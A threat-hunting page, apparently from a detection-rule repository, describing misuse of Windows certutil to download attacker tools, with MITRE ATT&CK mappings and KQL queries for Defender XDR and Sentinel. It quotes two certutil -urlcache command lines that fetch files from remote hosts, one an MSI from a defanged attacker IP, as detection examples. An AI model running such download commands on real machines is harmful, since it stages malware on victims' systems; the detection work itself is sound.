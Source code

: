 # Certutil Remote Download

## Query Information

#### MITRE ATT&CK Technique(s)

| Technique ID | Title    | Link    |
| ---  | --- | --- |
| T1218 | System Binary Proxy Execution | https://attack.mitre.org/techniques/T1218/ |

#### MITRE ATT&CK Technique(s)

| Technique ID | Title    | Link    |
| ---  | --- | --- |
| T1105| Ingress Tool Transfer | https://attack.mitre.org/techniques/T1105/ |

#### Description
Adversaries may transfer tools or other files from an external system into a compromised environment. Tools or files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols. The living of the land binary certutil is know to be misused by adversaries to remotely collect malicious tools.

Malicious Examples (Sources, see references):
```PowerShell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil  -urlcache -f http[:]//23.26.137[.]225:8084/msappdata.msi c:\mpyutd.msi
```

#### Risk
An adversary transfered tools to the local device for execution.

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Certutil/
- https://www.huntress.com/blog/slashandgrab-screen-connect-post-exploitation-in-the-wild-cve-2024-1709-cve-2024-1708

## Defender XDR
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder Timestamp, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
## Sentinel
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder TimeGenerated, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
